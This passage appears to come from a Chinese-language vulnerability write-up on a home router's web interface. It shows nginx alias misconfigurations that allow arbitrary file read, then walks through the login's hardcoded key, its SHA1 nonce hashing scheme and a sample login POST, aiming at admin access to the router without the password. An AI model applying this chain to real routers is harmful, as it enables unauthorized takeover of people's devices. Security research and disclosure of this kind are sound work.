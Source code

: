 类似的问题，存在多处如

```
location /backup/log {
	alias /tmp/syslogbackup/;
} `location /api-third-party/download/public {

alias /userdisk/data/;

}

location /api-third-party/download/private {

alias /userdisk/appdata/;

}` 
```

#### 通过任意文件读取，登录路由器后台

不是明文存储密码，进行一定分析。关注两个过程，一是登录时前端js生成http post请求参数过程，二是验证用户登陆的后端过程。

*   登录时前端js生成http post请求参数过程

    ```
    var Encrypt = {
        key: 'a2ffa5c9be07488bbb04a3a47d3c5f6a',
        iv: '64175472480004614961023454661220',
        nonce: null,
        init: function(){
            var nonce = this.nonceCreat();
            this.nonce = nonce;
            return this.nonce;
        },
        nonceCreat: function(){
            var type = 0;
            // 自己的mac地址
            var deviceId = '<%=mac%>';
            var time = Math.floor(new Date().getTime() / 1000);
            var random = Math.floor(Math.random() * 10000);
            return [type, deviceId, time, random].join('_');
        },
        oldPwd : function(pwd){ // oldPwd = sha1(nonce + sha1(pwd + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))
            return CryptoJS.SHA1(this.nonce + CryptoJS.SHA1(pwd + this.key).toString()).toString();
        },
      //...
    }; 
    ```

    可知`oldPwd = sha1(nonce + sha1(pwd + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))`，登陆请求包为

    ```
    POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1
    Host: 192.168.31.1 `username=admin&password=c9e62da7b8a0b7a4918c5a90912ba81a9717f9ab&logtype=2&nonce=0_mac地址_时间戳_5248` 
    ```
